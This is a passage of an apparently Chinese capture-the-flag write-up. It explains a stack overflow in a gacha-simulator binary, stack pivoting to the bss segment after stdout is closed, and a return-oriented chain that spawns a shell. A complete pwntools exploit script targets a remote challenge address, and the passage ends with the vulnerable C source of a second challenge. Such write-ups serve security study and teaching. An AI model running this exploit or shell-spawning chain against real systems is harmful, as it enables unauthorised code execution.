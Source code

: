 抽卡模拟器，在最后选择抽卡会进入有read栈溢出的语句中。但是溢出的长度不够，所以我们要进行栈迁移。

这里close(1)，关闭了stdout所以write和puts都不会有回显，所以想到将栈迁移到bss段。

由于我们在bss段没有提前布置栈帧结构，所以还要再read一次，汇编指令确定参数的位置是rbp+offset，所以fake rbp后写入main中read的地址。通过main中的leave ret完成完整的栈迁移。

之后在新栈写入“/bin/sh”并调用system。stdout关闭了，普通的cat flag没有回显，所以要"cat flag >&2"

## exp

```python
#!/usr/bin/env python3
from pwn import *

context.log_level='debug'
context.arch="amd64"
p= remote('219.152.60.100',54232)
#p=process('./pwn')
elf=ELF('./pwn')
offset=0x30
pop_rdi=0x400d13
system_addr=0x0400C8C
sys_plt=0x400700
sys_got=elf.got['system']
bss_start=0x602000+0x308+0x400
read_addr=0x400c63
leave=0x0000000000400b24
p.sendlineafter('[3]结束抽卡','3')
p.sendlineafter('[2]退出','1')
cmd="/bin/sh\x00"
payload=flat('a'*offset,bss_start+0x10,read_addr,'\x00'*24)
#gdb.attach(p)
p.sendafter('的名字：',payload)
payload=flat('\x00'*(0x30+8),pop_rdi,bss_start+0x30,sys_plt,cmd)
p.send(payload)

p.interactive()
```

注意别用sendline，我调了很长时间，sendline会改变一些重要函数所需参数。

# keer‘s bug

`stack piovting`+`rop`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[80]; // [rsp+0h] [rbp-50h]

  memset(s, 0, 0x50uLL);
  write(1, "Come on!! You can ri keer!!!\n", 0x1DuLL);
  read(0, s, 0x70uLL);
  return 0;
}
```
